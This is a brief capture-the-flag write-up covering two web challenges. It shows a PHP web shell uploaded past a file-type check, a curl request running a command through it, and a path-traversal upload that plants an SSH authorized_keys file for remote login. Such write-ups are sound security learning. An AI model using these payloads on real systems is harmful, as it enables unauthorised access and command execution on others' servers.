 ```yaml
---
created: 2024-06-27T07:05
updated: 2024-06-27T21:07
tags:
  - box
---
```


# thehackerconclave

3 hour CTF with a bunch of typos and mis-management.

Joined [@WorldWideFlags](https://ctftime.org/team/283853) on this one.

## Bad Upload

### Payload

```php
<?php
echo 'Command:';
if($_POST){
system($_POST['cmd']);
}
__halt_compiler();
?>
```

Simply edit the HTML markup, and replace one of the option values with `php`.

```shell
curl --request POST \
  --url http://ctf.thehackerconclave.es:20003/documents/payload.php \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data 'cmd=cat /flag/flag.txt'
```

## Backup server

### Generate Key

```sh
ssh-keygen
```

### Rename public key to `authorized_keys` and upload to `.ssh/`

```curl
curl --request POST \
  --url http://ctf.thehackerconclave.es:20007/index.php \
  --header 'Content-Type: multipart/form-data' \
  --form 'file=@authorized_keys' \
  --form directory=../.ssh
```

### Connect to it with private key

```shell
 ssh -i sshkey user1@ctf.thehackerconclave.es -p 20008
```

